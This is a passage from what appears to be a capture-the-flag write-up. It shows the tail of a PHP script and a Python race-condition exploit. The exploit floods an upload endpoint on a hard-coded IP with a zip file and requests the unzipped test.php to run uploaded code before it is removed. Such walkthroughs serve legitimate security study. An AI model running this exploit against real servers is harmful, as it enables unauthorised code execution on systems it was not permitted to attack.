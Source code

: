 ```
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

script race condition:
```
#!python3
import requests
import threading
from multiprocessing.dummy import Pool as ThreadPool
url='http://139.180.134.15:10000/'
def runner(d):
    data={
        "file2upload":open("test2.zip","rb")   
    }
    r1 = requests.post(url+'upload.php',files=data)
    if (requests.get(url+"upload/zip/unzipped/test.php").status_code==200):
            r2 = requests.get(url+"upload/zip/unzipped/test.php")
threads=[]
for i in range(200):
    t=threading.Thread(target=runner,args=[i])
    t.start()
    threads.append(t)
for thread in threads:
    thread.join()
print(threads)
```
![img](./img/16.png)
